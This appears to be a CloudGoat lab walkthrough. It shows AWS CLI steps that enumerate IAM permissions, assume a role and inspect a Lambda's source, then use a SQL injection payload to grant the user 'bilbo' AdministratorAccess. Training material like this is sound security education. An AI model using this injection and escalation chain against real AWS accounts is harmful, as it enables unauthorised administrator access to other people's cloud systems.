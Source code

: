 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```
2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```
3. List lambdas to identify the target lambda.

    ```bash
    # This command will show you two cloudgoat functions. One function is the target function that you need
    # to invoke in order to finish this scenario. The other function can apply a predefined set of
    # aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function.
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Craft an injection payload to send through the CLI. This is the payload field that will be used to invoke the lambda.

    ```bash
    # This payload is being written to a file in preperation for the next step. 
    echo "{ \"policy_names\": [\"AmazonSNSReadOnlyAccess\", \"AdministratorAccess\' --\"], \"user_name\": \"[bilbo_user_name_here]\" }" >> payload.txt
    ```
6. Invoke the role applier lambda function, passing the name of the bilbo user and the base64 encoded injection payload. 

    ```bash
    # Passing an injection payload through the cli is a bit complicated. The single quote needed to perform SQL injection
    # causes an argument parsing error for the cli, so I base64 encoded it. That process adds newline characters, which cause
    # the same problem, so that is removed after the pipe. 
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --payload $(base64 payload.txt | tr -d '\n') output.txt
    ```
7. Now that Bilbo is an admin, use credentials for that user to invoke the target lambda. 

    ```bash
    # This command invokes the target lambda
    aws --profile bilbo --region us-east-1 lambda invoke --function-name cg-lambda_injection_privesc_cgid05fabeanxc-target_lambda output.txt
    # This reads the response from the lambda
    cat output.txt
    ```